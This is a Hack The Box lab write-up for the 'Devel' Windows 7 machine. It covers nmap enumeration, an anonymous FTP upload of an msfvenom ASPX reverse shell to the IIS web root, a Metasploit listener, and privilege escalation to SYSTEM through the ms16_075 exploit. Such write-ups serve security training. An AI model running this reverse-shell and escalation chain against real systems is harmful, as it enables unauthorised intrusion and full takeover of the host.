 # Machine: Devel

## Overview

This write-up details my approach to compromising the "Devel" machine on Hack the Box. The Devel machine is a Windows 7 Enterprise system running an IIS web server and an FTP server with anonymous login enabled. Below are the steps I followed to successfully exploit the machine and obtain the necessary flags.

## Steps to Compromise the Machine

### 1. Enumerating

Initial Nmap Scan:

```bash
nmap -sS -p- -v <IP> -oN full_tcp_scan.txt
```

The scan revealed two open ports:

```
21/tcp: FTP (Microsoft ftpd, anonymous login allowed)
80/tcp: HTTP (Microsoft IIS httpd 7.5)
```

Service and Version Scan:

```bash
nmap -sV -sC -p21,80 <IP> -oN ports_scan.txt -oX ports_scan.xml -v
```

The detailed scan provided the following information:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 06-13-24  11:42AM                  698 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The target was identified as a Windows machine running IIS web server version 7.5 and an FTP server with anonymous login enabled.

### 2. Gaining Access

At first, I accessed the FTP server and confirmed it was the IIS web root path by modifying the iisstart.htm file.

I Generate an ASPX Payload and put in FTP root path:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<MY IP> LPORT=<PORT> -f aspx -o shell.aspx
ftp <IP>
put shell.aspx
```

I started a metasploit listener

```bash
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set LPORT 80
run
```

And I trigged the payload from my browser and I got the shell and I was iis apppool\web an unprivilege user.

### 3. Privilege Escalation

Using Metasploit post module to Suggest Exploits to elevate my privileges:

```bash
use post/multi/recon/local_exploit_suggester
run
```

I found and executed the exploit/windows/local/ms16_075_reflection_juicy exploit to escalate privileges to NT AUTHORITY\SYSTEM.

## Flag Capture:

Located and captured the user and root flags.

## Conclusion

Compromising the Devel machine involved identifying open ports, accessing the FTP server to upload a web shell, and exploiting the system using a combination of reverse shells and privilege escalation techniques. This exercise reinforced key concepts in web server exploitation and privilege escalation on Windows systems.

***
